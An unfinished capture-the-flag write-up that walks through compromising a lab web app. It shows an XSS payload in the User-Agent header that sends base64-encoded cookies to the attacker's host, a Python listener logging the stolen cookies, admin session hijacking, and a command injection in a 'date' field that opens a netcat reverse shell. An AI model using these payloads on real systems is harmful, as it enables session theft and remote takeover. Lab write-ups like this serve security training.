 *Not finished*

We run nmap and find that port 5000 is open.

There is a support screen where there is a place to log a support ticket. We input a script there to check for a cross site scripting vulnerability. This is input in burpsuite

```
User-Agent: <script>var i=new Image(); i.src="http://10.10.14.41:5000/?cookie="+btoa(document.cookie);
</script>
```

On our local we run a webserver to to receive a cookie:

```
python3 -m http.server 5000

Serving HTTP on 0.0.0.0 port 5000 (http://0.0.0.0:5000/) ...
10.10.14.41 - - [14/Jul/2024 11:08:21] "GET /?
cookie=aXNfYWRtaW49SW5WelpYSWkudUFsbVhsVHZtOHZ5aWhqTmFQRFdudkJfWmZz HTTP/1.1" 200 -
10.10.11.8 - - [14/Jul/2024 11:08:42] "GET /?
cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

After a gobuster dir attack, we see that there is a /dashboard behind a signin. We use the cookie to login as admin to connect to the /dashboard. First we have to run the cookie against base64

```
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
```

We then input the cookie via developer tools in the storage tab.

On the /dashboard page in burpsuite we find that there is a `date` input, we add another command injection there to get a reverse shell on the attacking box.

```
date=2023-09-15;+nc+10.10.14.41+4444+-e+/bin/bash
```

Netcat listens and gets our shell:

```
nc -lnvp 4444
```

